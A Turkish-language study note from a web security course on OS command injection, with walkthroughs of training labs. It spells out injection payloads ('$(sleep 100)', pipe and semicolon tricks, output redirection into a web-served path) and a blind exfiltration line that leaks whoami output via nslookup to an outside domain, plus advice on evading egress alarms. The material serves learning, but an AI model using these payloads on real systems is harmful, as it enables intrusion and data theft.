 <h1 align="center">OS Command Injection</h1>

- Günümüz web uygulamalarının istisnasız, OS ile bir iletişimi vardır ve buna da ihtiyacı vardır. Bu uygulamanın belli durumlarda işletim sistemindeki diğer programlarla da etkileşime geçmesi gerekmektedir.
- Bir web sitesi bir işi 60sn içerisinde tamamlayamıyor ise, background job iş olarak yapma eğilimindedir.
- 60sn yi geçerse, alttaki TCP session’ı kopabilir tabi gönderilen header’ın connection-type ına göre belirleniyor bu.
- Burdaki web uygulaması yapacağı işin belli birtakım şartlarının olması gerekli:
    1. Req-response döngüsü içinde cevap üretemeyeceğin kadar yoğun  bir işin varsa. Bu işi, kullanıcıdan alıp background job başlatıp schedule ediyor, işim bitince ben sana mail atarım diyor. Bu iş için OS ile iletişim kurabilmesi için arkada belli başlı kodların yazılması gerekiyor.
- Bir HTTP req-response cycle içerisinde bitmeyen ama işletim sisteminin arkada yapmaya devam ettiği işlere asenkron proccessler denir.
#### İşletim Sistemi üzerinde komut çalıştırmaya ihtiyaç duyulan her noktada bir Command Line Injection bulunabilir.
- Kullanıcıdan bir parametre alırsan, bu parametreyi güvensiz bir şekilde koyarsan Command Injection olur. Alınan input kullanılan yer :
    - Output, HTML içeriğinde ise ve encoding yapmıyor ise XSS,
    - SQL sorgusunda kullanılıyorsa ve parameter bining yapmıyorsa SQLi,
    - İşletim sisteminde çalışacak komutun bir parçasında güvenli bir şekilde yer almıyorsa OS Command Injection.
#### PHP dilinde ` işareti, komut satırında komut çalıştırıyor.
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/5f0e3632-60e4-4886-b581-b3eaafa037e6)
- "; ile kodu durdurup geri kalanında istediğini yazabilirsin
```sh
sleep 100; 
	komutu mesela
```
## Linux Tips
```sh
echo BENIM ADIM "MEHMET $(sleep 100) INCE"
```
- buradaki olay aslında çift tırnak olması
	- Linux işletim sistemi çift tırnak içerisinde $() işareti içinde mevzu gördüğünde string interpolation gerçekleştiriyor
	- Ortadaki komutun çıktısı tırnakların içine string olarak gidiyor
- " ve ; gibi işaretler input validationa takılır genellikle.
#### " ile kapatıp istedğin kodu yazabilirsin ama işte engele takılır.
- Windowsta da Powershell'i kontrol edebiliyorsan orda da yarar bu
#### Tek tırnak kullanmak gerekiyor ama yine tek tırnak kapatıp istediğin kodu enjekte edebilirsin.
### Nihai payload kodu şu şekilde:
```sh
’$(sleep 100)’
```
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/4e505be6-5460-42ea-9e38-c6cad79be5d7)

- Çalıştırdığın komutun çıktısını HTML içeriğinde görebiliyorsan sıkıntı yok.
- Asenkron yapılarda ise, Blind OS Command Injection gerçekleşir. Bunun için en güzel yöntem “nslookup” tır. Hem windowsta hem linuxta ortak komuttur.
    - nslookup google.com
    - Bu komut çalıştırıldığında sistemdeki default name server ne ise ona gider. Oradan root DNS’e gider, sonrasında senin dns sunucuna gelir ve loglarında görmeye başlarsın.
    - echo BENIM ADIM ‘MEHMET ‘$(nslookup $(whoami).mehmetince.net)’ INCE’
    - Bir sunucudan ICMP paketi ile çıkmaya çalıştığında bütün alarmlar halaya kalkar. Tek yapabileceğin şey nslookup ile işletim sisteminin defaultundaki DNS'e gitmektir.
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/a40e07ea-597d-4aee-9a09-0200c210a831)
- whoami içinde boşluk, değişik karakterler falan olmamalı. Domain, RFC protokolüne uygun bir şeyler olması lazım.
## Lab: OS Command Injection, Simple Case
- Burp suite ile bir ürün sorgusunun trafiğini yakalıyoruz.
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/17386aed-a9d3-4128-8723-719a8d888225)
- Stok kontrolü isteği gelince, sunucu arka taraftaki stok kontrolü ile ilgili servise gidiyor yani komut satırında komut çalıştırıyor.
- Çıktı olarak sunucu integer bir değer bekliyor o yüzden whoami çalışmadı ama sleep 10 komutu çalıştı. Tırnak koymadan yaptı
- tek tırnak “ veya ‘ koyunca Syntax hatası veriyorsa, arka tarafa parametreler yalın halde gidiyor demektir: checkstock.sh 1 2
- “” şeklindeyse, ‘ konulduğunda syntax hatası vermemesi lazım.
- ‘’ şeklindeyse, “ konulduğunda hata vermemesi lazım.
- ; echo 123; yaptığında çıktı verdi
    - [checkstock.sh](http://checkstock.sh) 1 $(whoami) yapmak yerine yani parametreye yazmak yerine,
    - proccessin outputuna veriyi koymak gerekiyor yani, std.output’a gelen data bu diyecek adam
    - pipe atıp | echo $(whoami) yapabilirsin
## Lab: Blind OS Command Injection with time delays
- Feedback verme kısmında senin formu save ediyor arka tarafa.
    - Tek tırnak ‘ atınca save etti, çift tırnak “ atınca save edemedi
    - Demek oluyor ki, arka taraftaki komut çift tırnaklar “ arasına alınmış.
    - $(sleep 10)
## Lab: Blind OS Command Injection with output redirection
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/1cf17982-7bde-4c3e-8b15-0561b74d3cec)
- Zaafiyet BLIND ise, kendi komutunun çıktısı yansımıyor fakat SLEEP ile zaafiyeti doğrulayabilirsin.
- Kendi komutunun çıktısını bir pathe redirection yaparsan ve o path’e de web üstünden erişebiliyor isen böylece Command Injectionu zaafiyetini sömürebilirsin.
- inputların hangisini kontrol ettiğimizi bilmiyoruz
- gidip en sona :
    - $(whoami%20>%20/var/www/images/mdisec.txt)
    - $(whoami%20>%20/var/www/images/mdisec.txt)
    - Sayfanın kaynak kodlarında .jpeg, .png gibi dosyalara bakıp seninki de orada mı diye kontrol edebilirsin.
    - payloadı yazdıktan sonra ana sayfadaki fotoğrafları yükleme URL’i üstünden GET isteğinden filename=mdisec.txt yaptığında çözülür.
    - Endpoint üstünden yüklendiği için böyle tasarlanmış lab. Fullpath verip de görebilirsin gerçek hayatta.
